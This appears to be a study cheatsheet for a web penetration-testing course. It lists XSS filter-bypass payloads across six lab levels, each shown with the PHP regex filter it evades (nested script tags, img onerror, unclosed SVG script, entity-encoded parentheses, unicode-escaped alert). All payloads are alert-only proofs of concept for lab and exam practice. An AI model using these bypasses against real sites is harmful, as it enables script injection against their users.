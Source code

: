 # eWAPTX Labs Cheatsheet
A simple cheatsheet based on the exercises provided by the course, usable for quick reference during the exam.
# XSS
## Level 1
No sanitization, simple payload:
```bash
<script>alert('l33t')</script>
```
## Level 2
Script tag is blocked by the regex: 
```bash
'#<script([\s])*>#is'
```
Nested scripts:
```bash
<script <script>>alert('l33t')</script>
```
## Level 3
Script tag blocked by recursive regex:
```bash
'#<script(.*?)>#is'
```
IMG tag:
```bash
<img/src onerror=alert('l33t')>
```
## Level 4
```bash
//Script must be closed, here\'s a stronger filter... isn\'t it?
$search = preg_replace('#<script(.*?)>(.*?)</script(.*)?>#is', NOSCRIPT, $search);
//No ON no party!  
$search = preg_replace('#(on\w+\s*=)#s', NOEVENTS, $search);
```
Malformed SVG:
```bash
<svg><script>alert('l33t')
```
## Level 5
```bash
//No ON no party!  
$search = preg_replace('#(on\w+\s*=)#s', NOEVENTS, $search);
//No Functions no party! 
$search = preg_replace('#[()]#s', NOFUNCTIONS, $search);
```
No parenthesis:
```bash
<svg><script>alert&lpar;'l33t'&rpar;
```
## Level 6
```bash
//No alert no party!  
$search = preg_replace('#alert#is', NOALERT, $search);
```
No alert (with unicode):
```bash
<script>\u0061lert('l33t')</script>
```